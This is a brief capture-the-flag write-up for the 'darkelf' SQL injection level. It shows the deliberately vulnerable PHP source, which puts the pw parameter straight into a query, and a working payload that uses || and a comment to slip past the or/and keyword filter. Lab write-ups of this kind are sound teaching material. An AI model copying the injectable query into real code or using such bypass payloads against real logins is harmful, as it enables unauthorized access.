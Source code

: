 # **Darkelf**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();    
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");   
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
  if($result['id'] == 'admin') solve("darkelf");   
  highlight_file(__FILE__);   
?>
```

Cuz to `preg_match('/or|and/i', $_GET[pw])`, so `or` and `and` will not work this time.

However, we all know the method that use symbols to replace these operators, `||` to `or`, `&&` to `and`.

So, the payload of this challenge should be `?pw=%27||id=%27admin%27%23`.

Here's something weird that `&&` work as `%23` in this challege, you can only use Url encoded `%26%26` to make `and` statement work.



